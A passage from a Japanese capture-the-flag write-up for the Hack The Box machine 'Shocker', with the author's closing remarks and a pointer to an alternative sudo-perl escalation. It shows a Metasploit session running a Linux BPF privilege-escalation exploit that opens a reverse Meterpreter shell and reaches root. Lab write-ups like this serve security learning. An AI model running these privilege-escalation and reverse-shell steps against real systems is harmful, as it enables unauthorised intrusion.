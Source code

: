 ```
   ----   ---------------  --------  -----------
   LHOST  10.0.3.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set lhost 10.10.14.13
lhost => 10.10.14.13
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Writing '/tmp/.o6n64nkI' (34784 bytes) ...
[*] Writing '/tmp/.NNAJke2W' (207 bytes) ...
[*] Launching exploit ...
[*] Sending stage (985320 bytes) to 10.10.10.56
[*] Cleaning up /tmp/.NNAJke2W and /tmp/.o6n64nkI ...
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.56:52842) at 2020-02-27 11:56:36 -0500

meterpreter > shell
Process 1882 created.
Channel 1 created.
whoami
root
pwd
/home/shelly
cd /root
ls
root.txt
cat root.txt
```

root が取れました。

## 終わりに
今回は他の人の writeup を見ずに root までいけました。
（実は完全に見なかったのは初めて）
これからも精進します！

## 他の方法
https://xd3m0n.xyz/htb_shocker/
- `sudo -l`で `perl` を password なしで root 権限で使えることを見つけてそこから攻めてる. スマート

